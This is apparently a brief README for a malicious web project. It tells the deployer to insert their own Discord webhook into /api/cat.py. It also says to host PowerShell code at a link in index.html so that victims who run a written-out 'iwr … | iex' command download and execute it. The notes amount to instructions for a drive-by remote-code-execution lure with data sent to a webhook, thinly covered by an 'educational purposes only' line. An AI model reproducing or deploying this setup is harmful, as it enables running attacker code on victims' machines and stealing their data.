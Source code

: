 # Replace the webhook in /api/cat.py with your discord webhook 



# in index.html replace anything that says "http://extratools.mooo.com/" with your own link (the link hosted must have powershell code in it for when they run iwr "yourlink" | iex in powershell it executes something, not making a tutorial as this is for educational purposes only)
